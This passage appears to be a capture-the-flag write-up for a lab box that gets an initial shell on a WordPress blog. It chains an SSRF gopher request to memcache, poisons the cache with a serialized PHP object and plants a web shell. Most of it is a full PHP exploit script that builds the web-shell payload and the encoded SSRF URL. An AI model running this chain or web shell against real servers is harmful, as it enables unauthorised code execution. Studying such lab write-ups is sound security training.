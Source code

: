 ## Initial shell

In order to get our initials shell we have to do the following steps:

First we are going to exploit a `php-object-injection` via `cache-poisoning` on memcache. Once we injected our php-object, we can trigger the deserialization by letting the server load from cache. Upon `deserialization` we write our data `(php web-shell)` to the server. Now we can access the web-shell and get a proper reverse-shell.

### Cache-poisoning and deserialization exploitation

Let us try to write data to memcache. For this we can use the command `_set key flags expire_time length value`. Let us try to overwrite the default cache value with our `php-object`. All we have to do now, is to complete the script and add `url-encoding` to ensure that the payload is interpreted correctly.

Full `exploit` below:

```php
<?php

class TemplateHelper
{

    private $file;
    private $data;

    public function __construct(string $file, string $data)
    {
    	$this->init($file, $data);
    }

    public function __wakeup()
    {
    	$this->init($this->file, $this->data);
    }

    private function init(string $file, string $data)
    {    	
        $this->file = $file;
        $this->data = $data;
        //__DIR__ = "wp-content/themes/twentytwenty" according to README.md
        //file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
	}	
}

// Generate php-payload
$object = serialize(new TemplateHelper("chronos.php","<?php system(\$_REQUEST[\"cmd\"]);?>"));

// Generate memcache-key for our host
$name = md5("http://10.10.14.2/chronos.xml"); //Cache some url (FILE HAS TO EXIST ON OUR SERVER)
$type = "spc"; //Type (const)
$key = md5("$name:$type"); //Memcache-Key

// Final memcache payload
$payload = " xct_" . $key . " 0 100 " . strlen($object) . "\r\n" . $object . "\r\n";

// Url-encode payload (double)
$encoded = str_replace("+","%20",urlencode($payload));

// SSRF-url to access memcache
$url = "http://blog.travel.htb/awesome-rss/custom_feed_url=gopher://0:11211/_set";

// Print final payload
echo $url . $encoded . "\n";
```